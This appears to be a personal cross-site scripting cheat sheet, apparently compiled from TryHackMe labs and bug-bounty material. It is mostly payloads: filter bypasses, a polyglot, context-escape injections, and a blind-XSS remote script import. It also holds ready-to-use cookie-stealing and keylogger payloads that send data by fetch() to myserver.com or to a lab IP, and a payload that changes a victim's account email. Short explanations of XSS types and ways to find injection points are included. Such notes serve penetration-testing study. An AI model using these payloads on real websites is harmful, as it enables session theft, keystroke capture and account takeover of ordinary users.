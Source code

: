 
Garrs favorite:
`"><img src=a onerror=alert(34)>`
![[Images/Pasted image 20240723202901.png]]
![[Images/Pasted image 20240723202943.png]]
How does it handle different characters. Is it stripping event handlers but keeping the img tag? Then you could try a simple script-alert-script payload.

---

`<script>alert("Succ3ssful XSS")</script>`
check where the text is reflected, in a tag?, in a string? end those:
`"><script>alert("Succ3ssful XSS")</script>`
in script code already?
`';alert('THM');//`

"script" word removed:
`<sscriptcript>alert('THM');</sscriptcript>`

<> filtered in IMG tag
`/images/cat.jpg" onload="alert('THM')`

Steal cookie - send to your own server to be logged
`<script>fetch('https://myserver.com/steal?cookie=' + btoa(document.cookie));</script>`
`</textarea><script>fetch('http://10.18.21.236:9001?cookie=' + btoa(document.cookie) );</script>`

Key logger - send to your own server to be logged
`<script>document.onkeypress = function(e) { fetch('https://myserver.com/log?key=' + btoa(e.key) );}</script>`

Using the web pages specific functions
`<script>user.changeEmail('attacker@hacker.thm');</script>`

"Polyglot"
``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``

**Reflected XSS** - our payload reflected/seen on the webpage/it's code
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

![[Images/24e50d95cecfc3783bd1a3a4fecbf310.png]]

**Stored XSS** - our payload is stored on the website (database...)
test every possible point of entry where it seems data is stored
- Comments on a blog
- User profile information
- Website Listings
Test by manually entering data for example instead of the pages drop down menu with numbers..

**DOM Based XSS** - JavaScript execution happens directly in the browser no new pages loaded or data submitted to backend. Execution occurs when the website JavaScript code acts on input or user interaction.
- look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters
When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**

**Blind XSS** Stored but you can't see it
- Unfiltered messages sent
- ensure your payload has a call back (usually an HTTP request)




---

cross site scripting

insert javascript code into a website

stored or not, reflected or not



try html injection first - `"><u>test123"` /nahamsec

then try an event handler `<u/onmouseover=alert(1)>test123`
`<img src=x onerror=alert(1)>`

confirm

get your code in here `import('http://site.com/1.js')`

can put xss payload or blind xss payload

---

go through a web page, clicking everything to check what pages exist and what parameters exist, what fields exist..

#### Parameters
try payloads for parameters
url/?page_id=2test123 - is test123 on the page?
view page source or inspect, search for test123
	might end up in html, might be in html...
	if you're in a script tag, just close it: `"></script>test123`
	or for example `?param=2test123"></script>test123<img%20src=x%20onerror=alert();//>`
	or simply `?param=2%27;+alert()//test123`
	check for other empty variables in javascript code and try them as parameters

#### Fields
blog title: Welcome`"><U>test123`
colors for style
even if it is sanitized when entering into the form we can modify the request by capturing it with burp...
if we add a `</style>test123<script>alert()</script>`




### Other examples

```html
<​script/src=//⑮.rs>
<i/oncut​=alert()> (CTRL +X )
<svg/onload​=alert()
```

```html
'<​script>alert(<?php phpinfo() ;? >);<​/script>
```

```html
img/src=x onerror​=/*--*/alert()
```

```html
throw onerror​=alert,1337

throw onerror​=eval,'=alert\x281\x29'
```
